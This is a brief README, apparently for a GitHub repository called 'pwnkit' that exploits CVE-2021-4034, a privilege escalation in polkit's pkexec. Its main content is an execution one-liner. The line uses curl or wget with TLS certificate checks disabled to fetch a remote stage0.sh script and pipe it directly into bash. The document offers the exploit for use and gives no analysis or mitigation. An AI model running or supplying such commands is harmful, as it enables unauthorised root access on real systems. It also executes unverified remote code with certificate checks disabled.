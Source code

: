 # pwnkit

CVE-2021-4034

Privilege escalation in polkit pkexec function.

Execution:
command -v curl >/dev/null && bash -c "$(curl -fsSLk raw.githubusercontent.com/secw01f/pwnkit/main/stage0.sh)" || bash -c "$(wget --no-check-certificate -q0- raw.githubusercontent.com/secw01f/pwnkit/main/stage0.sh)"
